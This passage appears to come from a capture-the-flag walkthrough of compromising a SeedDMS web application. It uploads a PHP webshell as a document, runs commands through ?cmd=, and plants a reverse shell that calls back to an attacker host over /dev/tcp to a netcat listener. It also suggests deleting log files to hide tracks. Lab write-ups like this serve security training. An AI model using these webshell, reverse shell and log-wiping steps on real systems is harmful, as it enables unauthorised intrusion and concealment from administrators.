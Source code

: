 Now we can log into the application without the admin easily knowing they have been compromised.

SIDETRACK: While you are in as an new admin, you could look into deleting the logfiles to hide your tracks.

Where to next. Well php and shells go well together so lets get a simple webshell and go from there.For this

Kali has one available to us already: 
```
/usr/share/webshells/php/simple-backdoor.php
```
Upload the “document” and now just to call it. Make sure you note the document id and version of the file. 
NOTE: when adding a document it displays a blank screen but is successful. The app seems a bit buggy (which is good for us).

Doing some hunting we discover that files get uploaded into a default directory `/data/1048576/[file_id]/[version].[extension]`

We discovered `/data` in our enumeration phase. Time to plug in our file id and see if we can access it directly as well.

Lets try navigate to our shell. 

`http://<target>/seeddms51x/data/1048576/4/1.php`

![webshell.png]({{site.baseurl}}/Images/vb-hmp/webshell.png)


Adding our query string we can see that we have a working web shell:
```
?cmd=whoami
```

![webshell1.png]({{site.baseurl}}/Images/vb-hmp/webshell1.png)


now we can do some basic enumeration of the machine itself. Through this we discover that nc is installed and hopefully we can use that to create our reverse shell:
```
?cmd=which+nc
```

![webshell2.png]({{site.baseurl}}/Images/vb-hmp/webshell2.png)


Lets go for a simple php reverse shell:
```
touch rev.php 
vim rev.php
```
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker>/443 0>&1'");?>
```
Upload this file. If you upload a new document note the new document ID otherwise note the version.

Set up a listener on the attackers machine:
```
nc -nlvp 443
```
Lets hit the file:
```
http://<target>/seeddms51x/data/1048576/4/2.php
```
And we have a shell as www-data:
```
nc -nlvp 443        
listening on [any] 443 ...
connect to [192.168.1.162] from (UNKNOWN) [192.168.1.161] 36788
bash: cannot set terminal process group (921): Inappropriate ioctl for device
bash: no job control in this shell
```